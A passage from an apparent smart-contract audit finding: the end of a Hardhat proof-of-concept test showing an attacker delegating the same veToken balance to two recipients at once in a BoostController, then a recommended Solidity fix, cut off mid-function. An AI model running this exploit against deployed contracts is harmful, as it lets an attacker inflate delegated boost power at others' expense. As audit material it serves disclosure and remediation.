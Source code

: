 ```javascript
        console.log(`Attacker veToken Balance: ${ethers.utils.formatEther(INITIAL_BALANCE)}`);
        
        const delegationAmount = INITIAL_BALANCE;
        const duration = WEEK;

        const tx1 = boostController.connect(attacker).delegateBoost(
            recipient1.address,
            delegationAmount,
            duration
        );

        const tx2 = boostController.connect(attacker).delegateBoost(
            recipient2.address,
            delegationAmount,
            duration
        );

        console.log("\nExecuting parallel delegations...");
        await Promise.all([tx1, tx2]);

        const delegation1 = await boostController.getUserBoost(attacker.address, recipient1.address);
        const delegation2 = await boostController.getUserBoost(attacker.address, recipient2.address);

        expect(delegation1.amount).to.equal(INITIAL_BALANCE);
        expect(delegation2.amount).to.equal(INITIAL_BALANCE);
        const totalDelegated = delegation1.amount.add(delegation2.amount);
        expect(totalDelegated).to.be.gt(INITIAL_BALANCE);

        console.log("\nExploit successful! Double-delegation achieved.");
    });
});
```

## Tools Used
* Manual code review
* Hardhat for testing
* Contract verification tools

## Recommendation
```solidity
contract BoostController {
    // @audit-info Add tracking for total delegated amounts
    mapping(address => uint256) public totalDelegated;

    function delegateBoost(
        address to,
        uint256 amount,
        uint256 duration
    ) external override nonReentrant {
        if (paused()) revert EmergencyPaused();
        if (to == address(0)) revert InvalidPool();
        if (amount == 0) revert InvalidBoostAmount();
        if (duration < MIN_DELEGATION_DURATION || duration > MAX_DELEGATION_DURATION) 
            revert InvalidDelegationDuration();

        // @audit-ok Get current balance and calculate new total delegated
        uint256 userBalance = IERC20(address(veToken)).balanceOf(msg.sender);
        uint256 newTotalDelegated = totalDelegated[msg.sender] + amount;
        
        // @audit-ok Check total delegated against full balance
```